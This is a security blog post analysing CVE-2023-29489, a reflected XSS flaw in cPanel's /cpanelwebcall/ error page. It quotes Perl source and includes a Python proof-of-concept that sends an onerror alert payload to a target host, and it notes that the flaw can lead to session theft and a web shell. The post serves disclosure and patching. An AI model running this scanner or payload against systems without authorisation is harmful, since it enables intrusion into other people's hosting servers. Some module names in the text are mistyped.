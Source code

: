 ```yaml
---
layout: post
title: "Analysis of CVE-2023-29489: Reflected XSS in cPanel"
date: 2024-09-10
---
```


The CVE-2023-29489[1] refers to a reflected Cross-Site Scripting (XSS)[2] vulnerability identified in the cPanel[3] web hosting control panel software, which is widely used on the web. The XSS vulnerability allows an attacker to execute malicious scripts on a page being accessed by other users. The attacker does not need to be authenticated in order to do that.

This vulnerability was identified on April 26, 2023, by the Assetnote's[4] security team, an Australian security company. The vulnerability affects versions of cPanel prior to 11.109.9999.116 and was fixed in versions 11.109.9999.116, 11.108.0.13, 11.106.0.18, and 11.102.0.31 or later versions.

This publication is also disponible in: [Portuguese](https://blog.lesis.lat/blog/CVE-2023-29489/)

---

### Description

The cPanel software is written in Perl[5], with binaries generated from Perl code. Based on the binaries accessible in the **/cgi-sys/** directory on the management ports, it becomes evident that these binaries were originally Perl code and are remotely called via HTTP requests.

Besides the binaries inside **/cgi-sys/**, some cPanel functionalities and web applications are served through the cpsrvd binary. The cpsrvd binary runs by default on ports: 2082, 2083, 2086, 2087. For this, cPanel uses Apache's[6] reverse proxy features, and the configuration for this can be found in **/etc/apache2/conf/httpd/conf/**. These proxying and script aliasing configurations define areas that are potentially interesting for attacks:

```
ProxyPass /cpanelwebcall/ http://127.0.0.1:2082/cpanelwebcall/ max=1 retry=0

... omitted for brevity ...

ScriptAlias /.cpanel/dcv /usr/local/cpanel/cgi-priv/get_local.cgi

RewriteEngine On

RewriteCond %{REQUEST_URI} ^/\.well-known/acme-challenge/[0-9a-zA-Z_-]+$ [OR]
RewriteCond %{REQUEST_URI} ^/\.well-known/cpanel-dcv/[0-9a-zA-Z_-]+$ [OR]
RewriteCond %{REQUEST_URI} ^/\.well-known/pki-validation/[A-F0-9]{32}\.txt(?:\ Sectigo\ DCV)?$ [OR]
RewriteCond %{REQUEST_URI} ^/\.well-known/pki-validation/(?:\ Ballot169)?
RewriteRule ^ /.cpanel/dcv [passthrough]
```

The file **Cpanel/Server/Handlers/Httpd.pm** has a specific logic related to path handling. This allowed for the mapping of attack surfaces. Within httpd.pm, there is a code snippet that routes all requests from a path beginning with **/panelwebcall** to a function called **_server_cpanelwebcall**, which in turn calls another function, **Chanel::Server::WebCalls::handle**, with a portion of the URL as an argument:

```perl
elsif ( 0 == rindex( $doc_path, '/cpanelwebcall/', 0 ) ) {
        # First 15 chars are “/cpanelwebcall/”
        _serve_cpanelwebcall(
            $self->get_server_obj(),
            substr( $doc_path, 15 ),
        );
    }
```


The function **_serve_cpanelwebcall** looks like this:

```perl
sub _serve_cpanelwebcall ( $server_obj, $webcall_uri_piece ) {
    require Cpanel::Server::WebCalls;
    my $out = Cpanel::Server::WebCalls::handle($webcall_uri_piece);

    $server_obj->respond_200_ok_text($out);

    return;
}
```


Which leads us to the function **Chanel::Server::WebCalls::handle**:

```perl
sub handle ($request) {

    my $id = extract_id_from_request($request);
    substr( $request, 0, length $id ) = q<>;

    Cpanel::WebCalls::ID::is_valid($id) or do {
        die _http_invalid_params_err("Invalid webcall ID: $id");
    };
```

The `handle` function extracts an ID from the request and then modifies the request by removing the ID. If the ID is not valid, it generates an error indicating the invalid request. When the error occurs, the function **_httpd_invalid_params_err** is called, which creates an exception called **cpsrvd::BadRequest** that leads to the **Cpanel::Server::Handlers::ErrorPage** module. Within this module, there is a variable called **message_html**. The vulnerability lies in this variable because it does not sanitize the error message when inserting the invalid ID.

---

### Proof of Concept

Exploit:

```python
#!/usr/bin/env python3
import requests
import argparse
import re

def exploit(target):
    payload = "<img%20src=x%20onerror='alert(1)'>foo"
    if not re.match(r'^https?://', target):
        target = f"https://{target}"

    try:
        response = requests.get(f"{target}/cpanelwebcall/{payload}")
        if payload in response.text:
            return f"The payload [{payload}] worked!"
        else:
            return f"The target [{target}] is not vulnerable."
    except requests.exceptions.RequestException as e:
            return(f"Error making request for {target} -> {e}")

def main():
    parser = argparse.ArgumentParser(description="CVE-2023-29489 | XSS in cPanel")
    parser.add_argument("-t", "--target", required=True)
    args = parser.parse_args()

    try:
        print(exploit(args.target))
    except KeyboardInterrupt:
         exit(1)
    except EOFError:
         exit(1)
if __name__ == '__main__':
    main()
```


---

### Impact

The impact of this vulnerability allows an attacker to execute arbitrary JavaScript code, without being authenticated, on nearly any port of a web server running cPanel. 

This happens due to the proxy rules permitting access to the **/cpanel/** directory through ports 80 and 443, as requests are redirected by Apache to the cPanel management ports.

The fact that the cPanel management ports are vulnerable to XSS allows an attacker to steal a legitimate user's session. Once authenticated as a legitimate user, it is possible to upload a web shell[7] and gain remote command execution on the server.

Therefore, the vulnerability poses a significant threat to the application's security, and it is highly recommended that system administrators update to the latest version.

---

### Conclusion

The cPanel version discussed here has a vulnerable surface that allows an attacker to execute malicious scripts on pages accessed by regular users, without requiring authentication to exploit it. This vulnerability can be exploited regardless of whether the cPanel ports (2080, 2082, 2083, 2086) are exposed externally.

Exploiting this vulnerability can lead to arbitrary JavaScript code execution on nearly all ports of a web server running cPanel. This occurs due to proxy rules that permit access to the **/cpanel/** directory even through ports 80 and 443, with requests being redirected to the cPanel management ports by Apache's proxy configuration.

The vulnerability was addressed with patches available in versions after cPanel 11.109.9999.116. It is crucial for system administrators to update their systems to the latest version of cPanel and apply the available patches to mitigate the threats.

- This article was written by Lucas Katashi, who currently works as a pentester and is passionate about Red Teaming. He enjoys coding tools and considers Burp Suite his best friend.
- The translation was done by Giovanni Sagioro: a Computer Science student, seeker of the Perl wisdom, and security researcher. Focused on application security, vulnerability discovery, and exploit development. As Larry Wall says—‘Easy things should be easy, and hard things should be possible’—so I’m trying to make the hard things possible.

---

### References

* [1] [MITRE - CVE-2023-29489](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-29489)
* [2] [PortSwigger - Cross-site Scripting](https://portswigger.net/web-security/cross-site-scripting)
* [3] [Hostinger - Domine o cPanel: Prós, Contras e Como Usar](https://www.hostinger.com.br/tutoriais/cpanel-o-que-e-painel-de-hospedagem)
* [4] [Assetnote - Finding XSS in a million websites (cPanel CVE-2023-29489)](https://www.assetnote.io/resources/research/finding-xss-in-a-million-websites-cpanel-cve-2023-29489)
* [5] [Perl - Flexible & Powerful](https://www.perl.org)
* [6] [Apache - Software for the public good](https://www.apache.org)
* [7] [Wikipedia - Web Shell](https://en.wikipedia.org/wiki/Web_shell)
